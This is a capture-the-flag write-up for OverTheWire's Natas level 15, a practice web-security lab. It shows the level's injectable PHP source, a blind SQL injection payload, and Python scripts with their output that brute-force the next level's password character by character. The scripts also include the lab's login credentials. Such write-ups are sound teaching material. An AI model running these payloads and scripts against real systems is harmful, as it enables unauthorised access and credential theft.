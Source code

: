 +++
author = "Alex Domnit"
title = 'Natas-Level 15'
date = 2024-08-23T15:10:52+03:00
draft = false
description = "Writeup"
tags = [
    "CTF",
    "Completed",
]
categories = [
    "Overthewire",
    "Natas",
]

toc = false
+++

### Login
*Username: natas15*\
*Password: SdqIqBsFcz3yotlNYErZSZwblkm0lrvx*\
*URL:      http://natas15.natas.labs.overthewire.org*

### Doc
[What is SQL?](https://en.wikipedia.org/wiki/SQL)\
Structured Query Language is a domain-specific language used to manage data, especially in a relational database management system. It is particularly useful in handling structured data, i.e., data incorporating relations among entities and variables. 
[What is SQL injection?](https://en.wikipedia.org/wiki/SQL_injection)\
In computing, SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution.\
[What is brute-forcing?](https://en.wikipedia.org/wiki/Brute-force_attack)\
In cryptography, a brute-force attack consists of an attacker submitting many passwords or passphrases with the hope of eventually guessing correctly. The attacker systematically checks all possible passwords and passphrases until the correct one is found.\
[What is python?](https://en.wikipedia.org/wiki/Python_(programming_language))\
Python is a high-level, general-purpose programming language. Its design philosophy emphasizes code readability with the use of significant indentation. Python is dynamically typed and garbage-collected. It supports multiple programming paradigms, including structured, object-oriented and functional programming.

### Solution
Let`s log into natas15. Now the only present field is one entitled **username** and a **check existance** send button.

<img src="/img/natas/natas15-1.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>
<strong>Source code:</strong>

{{< highlight html >}}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{{< /highlight >}}
#### What does this code do?
The important selection out of all of that code is this: 
```
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }
```
This code snippet submits the sent data from the <strong>natas15 index page</strong> and parses it into a SQL query that boils down to:
```
Select * FROM users WHERE username="sentData"
```
Easy, basic <strong>SQL injection</strong> just like the last time right? Welp, not so soon since this time, there is no output except for an existance confirmation, a "does not exist return" and a sql querry error statement. So now that we know that we can`t output anything, what are we supposed to do?\
The 3 type of returns are actually very usefull since you can send data packets and get confirmation about the packets. The approach idea is to try every possible combination tailored with what we know that the output should be and how it should look and watch out for validation.
#### In practice, how can it be done?
The SQL injection statement will look like this:
```
natas16" AND password LIKE BINARY "%letter%" "
```
This will produce a positive output when the password associated with <strong>natas16</strong> contains a letter given by us (or in this case also an uppercase letter and numbers) and we will produce a string composed of all the letters present in the actual password. We should write a script in order to achieve this since doing that by hand is not possible.\
<strong>Python script template:</strong>
```
import requests

target = 'http://natas15.natas.labs.overthewire.org'
possibleCharacterList = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
foundCharacterList = ''

for character in possibleCharacterList:
	username = ('natas16" AND password LIKE BINARY "%' + character +'%" "') #BINARY is used to make the search case sensitive
	req = requests.get(target,
		auth=('natas15','SdqIqBsFcz3yotlNYErZSZwblkm0lrvx'),
		params={"username": username}
	)
	if "This user exists" in req.text:
		foundCharacterList += character
		print ('Possible so far: ' + foundCharacterList)
print("----"+"end of search"+"----")
```
We use the <strong>request</strong> library in order to make requests and get responses from the service then define our SQL query, define our auth parameters (<strong>the login data you have for natas15</strong>) and if the response to our insert with a certain character is possitive, append it to the empty list.\
<strong>Script execution:</strong>
```
03:13:59 archie@Archie pyscript → python3 getpasswordletters.py
Possible so far: 3
Possible so far: 34
Possible so far: 346
Possible so far: 346c
Possible so far: 346ce
Possible so far: 346cef
Possible so far: 346cefh
Possible so far: 346cefhi
Possible so far: 346cefhij
Possible so far: 346cefhijk
Possible so far: 346cefhijkm
Possible so far: 346cefhijkmo
Possible so far: 346cefhijkmos
Possible so far: 346cefhijkmost
Possible so far: 346cefhijkmostu
Possible so far: 346cefhijkmostuv
Possible so far: 346cefhijkmostuvD
Possible so far: 346cefhijkmostuvDE
Possible so far: 346cefhijkmostuvDEG
Possible so far: 346cefhijkmostuvDEGK
Possible so far: 346cefhijkmostuvDEGKL
Possible so far: 346cefhijkmostuvDEGKLM
Possible so far: 346cefhijkmostuvDEGKLMP
Possible so far: 346cefhijkmostuvDEGKLMPQ
Possible so far: 346cefhijkmostuvDEGKLMPQV
Possible so far: 346cefhijkmostuvDEGKLMPQVW
Possible so far: 346cefhijkmostuvDEGKLMPQVWX
Possible so far: 346cefhijkmostuvDEGKLMPQVWXY
----end of search----
Possible characters: 346cefhijkmostuvDEGKLMPQVWXY
```
As you can see, we confirmed that the password is composed out of these characters : <strong>346cefhijkmostuvDEGKLMPQVWXY</strong>\
#### What`s next?
Okay, so we have our string of present characters in the password but that is not the passkey for the next level. The approach will now be, for character in string, if password is like characterinstring% append to characterinstring and continue until the password reaches the length of 32 (<strong>all the password\`s lenghts so far</strong>) and then break.\
For that I will make a function that takes the output of the last script and does what I\`ve described ealier for each letter in the input.\
<strong>Function:</strong>
```
def get_password(foundCharacterList):
    password = ''
    while len(password)!=32:
        for character in foundCharacterList:
            username = ('natas16" AND password LIKE BINARY "' + password + character + '%" "')
            req = requests.get(target,
                auth=('natas15','SdqIqBsFcz3yotlNYErZSZwblkm0lrvx'),
                params={"username": username}
            )
            if "This user exists" in req.text:
                password += character
                print ('Password so far: ' + password)
                break
    print("Final password: " + password)
```
<strong>Now let`s run this:</strong>
```
03:32:35 archie@Archie pyscript → python3 finalscript.py
Possible so far: 3
Possible so far: 34
Possible so far: 346
Possible so far: 346c
Possible so far: 346ce
Possible so far: 346cef
Possible so far: 346cefh
Possible so far: 346cefhi
Possible so far: 346cefhij
Possible so far: 346cefhijk
Possible so far: 346cefhijkm
Possible so far: 346cefhijkmo
Possible so far: 346cefhijkmos
Possible so far: 346cefhijkmost
Possible so far: 346cefhijkmostu
Possible so far: 346cefhijkmostuv
Possible so far: 346cefhijkmostuvD
Possible so far: 346cefhijkmostuvDE
Possible so far: 346cefhijkmostuvDEG
Possible so far: 346cefhijkmostuvDEGK
Possible so far: 346cefhijkmostuvDEGKL
Possible so far: 346cefhijkmostuvDEGKLM
Possible so far: 346cefhijkmostuvDEGKLMP
Possible so far: 346cefhijkmostuvDEGKLMPQ
Possible so far: 346cefhijkmostuvDEGKLMPQV
Possible so far: 346cefhijkmostuvDEGKLMPQVW
Possible so far: 346cefhijkmostuvDEGKLMPQVWX
Possible so far: 346cefhijkmostuvDEGKLMPQVWXY
----end of search----
Possible characters: 346cefhijkmostuvDEGKLMPQVWXY
Password so far: h
Password so far: hP
Password so far: hPk
Password so far: hPkj
Password so far: hPkjK
Password so far: hPkjKY
Password so far: hPkjKYv
Password so far: hPkjKYvi
Password so far: hPkjKYviL
Password so far: hPkjKYviLQ
Password so far: hPkjKYviLQc
Password so far: hPkjKYviLQct
Password so far: hPkjKYviLQctE
Password so far: hPkjKYviLQctEW
Password so far: hPkjKYviLQctEW3
Password so far: hPkjKYviLQctEW33
Password so far: hPkjKYviLQctEW33Q
Password so far: hPkjKYviLQctEW33Qm
Password so far: hPkjKYviLQctEW33Qmu
Password so far: hPkjKYviLQctEW33QmuX
Password so far: hPkjKYviLQctEW33QmuXL
Password so far: hPkjKYviLQctEW33QmuXL6
Password so far: hPkjKYviLQctEW33QmuXL6e
Password so far: hPkjKYviLQctEW33QmuXL6eD
Password so far: hPkjKYviLQctEW33QmuXL6eDV
Password so far: hPkjKYviLQctEW33QmuXL6eDVf
Password so far: hPkjKYviLQctEW33QmuXL6eDVfM
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4s
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sG
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
Final password: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```
As you can see, we`ve got the password for the next level : <strong>hPkjKYviLQctEW33QmuXL6eDVfMW4sGo</strong>